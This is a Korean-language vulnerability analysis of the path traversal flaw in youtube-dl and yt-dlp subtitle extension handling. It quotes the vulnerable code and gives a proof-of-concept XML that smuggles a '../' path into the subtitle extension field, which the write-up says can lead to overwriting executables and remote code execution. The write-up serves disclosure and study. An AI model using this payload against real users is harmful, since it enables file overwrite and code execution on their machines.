

## URL

[https://securitylab.github.com/advisories/GHSL-2024-089_youtube-dl/](https://securitylab.github.com/advisories/GHSL-2024-089_youtube-dl/)

[https://securitylab.github.com/advisories/GHSL-2024-090_yt-dlp/](https://securitylab.github.com/advisories/GHSL-2024-090_yt-dlp/)

## Target

- youtube-dl
    - nightly release < v2024.07.03
    - official release 모든 버전
- yt-dlp
    - official release < v2024.07.01

## Explain

youtube-dl은 유튜브를 포함한 동영상 호스팅 사이트의 동영상을 다운로드하는 오픈소스 소프트웨어입니다. 공식 버전은 2021년 12월 17일 이후로 유지보수되지는 않으나, [ytdl-nightly](https://github.com/ytdl-org/ytdl-nightly) 저장소에서 지속적으로 업데이트되고 있습니다.

yt-dlp는 youtube-dl의 fork로, youtube-dl 프로젝트 중단 이후로 대부분의 사용자가 사용하는 다운로더이며 약 76,000의 star를 받는 등 인기있는 오픈소스 프로젝트 중 하나입니다. 이러한 두 소프트웨어에서 자막 파일 확장자 검증 미흡으로 인한 Path Traversal 취약점이 발견되어 세부 정보가 공개되었습니다.

yt-dlp 및 youtube-dl(이하 yt-dlp)은 영상뿐만 아니라 `--write-subs`, `--write-auto-subs`,  `--all-subs`, `--write-srt`(only yt-dlp) 옵션을 통해 자막 또한 다운로드할 수 있습니다. 지원되는 동영상 호스팅 웹사이트마다 [전용 자막 extractor](https://github.com/yt-dlp/yt-dlp/tree/master/yt_dlp/extractor)가 존재합니다.

자막 추출 과정은 각 extractor 구현 방식에 따라 아래와 같이 여러 방식으로 동작합니다.

1. extractor가 자막의 URL만 제공하는 경우
    - yt-dlp core가 직접 URL에 포함된 자막의 확장자를 확인함
2. extractor가 URL 및 자막 확장자를 명시적으로 제공하는 경우
    - 일부 extractor는 추출된 자막 확장자를 검증함.
    
    ```python
    # anvato.py
    a_caption = {
        'url': caption['url'],
        'ext': 'tt' if caption.get('format') == 'SMPTE-TT' else None
    }
    subtitles.setdefault(caption['language'], []).append(a_caption)
    ```
    
    - 일부 extractor는 추출된 자막 확장자를 검증하지 않음
    
    ```python
    # microsoftvirtualacademy.py
    subtitles.setdefault('en', []).append({
        'url': '%s/%s' % (base_url, subtitle_url),
        'ext': source.get('type'),
    })
    ```
    

취약점은 yt-dlp가 자막 확장자를 검증하지 않는 2번 동작 방식의 extractor에서 자막을 빌드할떄 발생합니다.

```python
    for sub_lang, sub_info in subtitles.items():
      sub_format = sub_info['ext']
      sub_filename = subtitles_filename(filename, sub_lang, sub_format, info_dict.get('ext')) # <------------- [1]
      sub_filename_final = subtitles_filename(sub_filename_base, sub_lang, sub_format, info_dict.get('ext'))
      existing_sub = self.existing_file((sub_filename_final, sub_filename))
      if existing_sub:
          self.to_screen(f'[info] Video subtitle {sub_lang}.{sub_format} is already present')
          sub_info['filepath'] = existing_sub
          ret.append((existing_sub, sub_filename_final))
          continue

      self.to_screen(f'[info] Writing video subtitles to: {sub_filename}')
#...

      try:
          sub_copy = sub_info.copy()
          sub_copy.setdefault('http_headers', info_dict.get('http_headers'))
          self.dl(sub_filename, sub_copy, subtitle=True) # <------------- [2]
          sub_info['filepath'] = sub_filename
          ret.append((sub_filename, sub_filename_final))
#...
```

yt-dlp는 [1]에서 extractor에서 제공한 자막 확장자 `sub_info['exe']`를 신뢰하고 별다른 검증 없이 출력할 자막파일의 이름 `sub_filename` 을 구성하고, [2]에서 구성된 자막파일 이름을 사용해 빌드합니다.

해커는 파일 확장자에 path traversal payload를 삽입해 취약점을 트리거할 수 있습니다.

기본적으로 sub_filename은 `[title][id].[sub_lang].[sub_format]` 로, 확장자가 마지막에 구성되어 `[not_existing_path]/../../../[payload]`  와 같이 구성 가능합니다. 이는 존재하지 않는 디렉터리가 포함된 경로를 허용하지 않는 Linux에서는 작동하지 않으나 Winows에서는 작동합니다.



```python
<videoSettings version="1.5">
  <PlaylistItems>
    <PlaylistItem>
      <MediaSources videoType="progressive"><MediaSource videoMode="720p" mimeType="video/mp4" codec="avc1.42E01E,mp4a.40.2" default="true">http://video.ch9.ms/ch9/1089/193d8990-f065-432e-87d7-981c61e41089/636AzureFundamentalsVM01_high.mp4</MediaSource><MediaSource videoMode="540p" mimeType="video/mp4" codec="avc1.42E01E,mp4a.40.2" default="false">http://video.ch9.ms/ch9/1089/193d8990-f065-432e-87d7-981c61e41089/636AzureFundamentalsVM01_mid.mp4</MediaSource><MediaSource videoMode="360p" mimeType="video/mp4" codec="avc1.42E01E,mp4a.40.2" default="false">https://sec.ch9.ms/ch9/1089/193d8990-f065-432e-87d7-981c61e41089/636AzureFundamentalsVM01.mp4</MediaSource></MediaSources>
      <MediaSource />
      <Title>01 | Introduction</Title>
      <MarkerResourceSource type="/../../poc.bin">content/content_gfvxismeb_6804984382/subtitles</MarkerResourceSource>
      <ThumbSource />
    </PlaylistItem>
  </PlaylistItems>
</videoSettings>
```

취약점은 위와 같이 추출 타겟이 될 XML을 생성하고 호스팅하는 것으로 트리거 가능하며, 이로 인해 실행 파일 등을 overwrite하는 것으로 RCE까지 이어질 수 있습니다.